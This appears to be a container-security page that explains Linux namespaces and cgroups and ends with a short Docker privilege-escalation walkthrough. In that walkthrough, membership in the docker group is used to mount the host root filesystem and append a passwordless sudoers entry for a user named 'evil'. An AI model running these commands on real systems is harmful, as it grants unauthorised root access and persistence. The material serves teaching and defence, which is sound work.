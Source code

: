     Cgroups

    Seccomp

    Capabilities

    LSM

    OverlayFS

### Namespaces

One of the key benefits of containers is that they allow for the creation of isolated environments, where a variety of software packages can be safely installed and tested without interfering with the underlying system. Namespaces play a crucial role in achieving this functionality. As stated in the Linux Programmer's Manual:

> A namespace wraps a global system resource in an abstraction that makes it appear to the processes within the namespace that they have their own isolated instance of the global resource. Changes to the global resource are visible to other processes that are members of the namespace, but are invisible to other processes. One use of namespaces is to implement containers.

The term "resource" here refers to things like mount points or PIDs, and Namespaces play an important role in creating an isolated environment for Containers to safely install various packages without affecting the host environment. Namespaces can create a separate mount point or PID, which enables Containers to access only their own file system and processes while being isolated from the host environment, preventing the Containers from accessing or affecting host files and processes.

### Cgroups


Cgroups control the memory capacity and CPU resources that processes can use through cgroupfs, preventing a bug in a process from causing the entire computer to crash. Docker can use the --cpu-shares flag to limit the CPU resources that each container can use.

---

## Privileged Escalation

```bash
sudo apt-get install docker.io
sudo usermod -aG docker evil
su evil

# Should fail
su deluser victim
sudo cat /etc/sudoers

cd 
mkdir privesc
nano Dockerfile

FROM debian:wheezy
ENV WORKDIR /privesc
RUN mkdir -p $WORKDIR
WORKDIR $WORKDIR

docker build -t privesc . # Inside current directory
docker run -v /:/privesc -it privesc /bin/bash

#Inside container
echo "evil ALL=(ALL) NOPASSWD: ALL" >> /privesc/etc/sudoers
cat /privesc/etc/sudoers
whoami # Success!!

```

---